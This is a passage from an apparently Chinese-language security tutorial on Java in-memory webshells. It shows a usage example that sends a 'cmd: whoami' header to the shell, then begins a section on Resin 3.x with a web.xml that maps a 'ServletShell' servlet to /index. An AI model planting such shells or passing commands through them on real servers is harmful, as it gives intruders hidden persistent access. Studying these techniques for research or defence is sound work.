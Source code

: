 使用方法

```http
cmd: whoami
```

测试效果

![image-20220105191416860](img/image-20220105191416860.png)



### 0x05 Resin 内存马

#### Resin 3.x

> 内存马相关实现、本地测试版本：resin v3.1.16

##### WebApp

> 当前代码运行时上下文环境

配置`web.xml`

```xml
<servlet>
    <servlet-name>ServletShell</servlet-name>
    <servlet-class>com.example.general.ServletShell</servlet-class>
</servlet>
<servlet-mapping>
    <servlet-name>ServletShell</servlet-name>
    <url-pattern>/index</url-pattern>
</servlet-mapping>
```

`com.example.general.ServletShell#doGet`方法处断点，获得相关的调用栈如下

![image-20220106131156977](img/image-20220106131156977.png)
